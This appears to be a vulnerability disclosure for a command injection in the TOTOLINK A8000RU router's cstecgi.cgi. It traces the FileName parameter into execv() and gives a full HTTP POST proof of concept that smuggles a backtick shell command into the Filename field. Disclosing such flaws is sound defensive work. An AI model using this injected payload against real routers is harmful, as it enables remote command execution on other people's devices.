




# A8000RU Vulnerability

Vendor:TOTOLINK

Product:A8000RU

Version:7.1cu.643_b20200521	

Vulnerability: Command Injection

Download:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/176/ids/36.html

Author:Li Tengzheng


## Descriptions

We found a Command Injection vulnerability  in `cstecgi.cgi` , allows remote attackers to execute arbitrary OS commands from a crafted request:

In sub_4328D0 function, it reads in a user-provided parameter `FileName` .

<div  align="center"></div>

However ,the value of the `FileName`  is inserted into `s`  using `__sprintf_chk`,and the value of v11 will be handled by the function CsteSystem.

Finally,the command will be executed by  execv() in CsteSystem.

<div  align="center"></div>


## Proof of Concept (PoC)

We set `FileName` as **\`ls>./UploadFirmwareFile.txt\`** , and the router will execute it,such as:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.6.2
Content-Length: 80
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://192.168.6.2
Referer: http://192.168.6.2/basic/index.html
Accept-Encoding: gzip, deflate, br
Cookie: SESSION_ID=2:1772465702:2
Connection: keep-alive

{"topicurl":"UploadFirmwareFile","Filename":"`ls>./UploadFirmwareFile.txt`"

}
```
<div  align="center"></div>


## Result

After submitting the HTTP request, we observed that the txt file was successfully created, and its content was precisely the list of filenames from the folder. This confirms that the command `ls>./UploadFirmwareFile.txt` was executed successfully.

<div  align="center"></div>

<div  align="center"></div>


